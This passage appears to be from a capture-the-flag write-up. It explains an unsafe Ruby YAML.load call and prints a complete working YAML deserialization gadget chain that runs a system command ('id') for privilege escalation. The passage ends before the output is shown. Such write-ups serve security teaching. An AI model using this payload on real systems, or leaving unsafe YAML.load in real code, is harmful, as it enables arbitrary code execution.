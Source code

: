 ### Unsafe Yaml

The line that is of interest here is:

```

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

```

Both [Python](https://pynative.com/python-yaml/#h-loading-a-yaml-document-safely-using-safe_load) and [Ruby](https://apidock.com/ruby/Psych/safe_load/class) have a `safe_load` function for loading YAML. This is because both had issues with the original load and deserializing the YAML payload, resulting in code execution. I showed exploiting the Python version of this for [Hackvent 2019 Day 19](/hackvent2020/hard#hv2019).

[This gist](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) has a really nice and succinct example of a payload that can be used to exploit YAML deserialization in Ruby. It’s based on this [much longer and more detailed article](https://www.elttam.com.au/blog/ruby-deserialization/).

### POC

I’ll grab the POC from the gist and paste it into a file. Wherever I save it, I’ll need to run the command from that directory:

```

henry@precious:/dev/shm$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve

```

Running now shows an error, the output of `id`, and then a traceback:
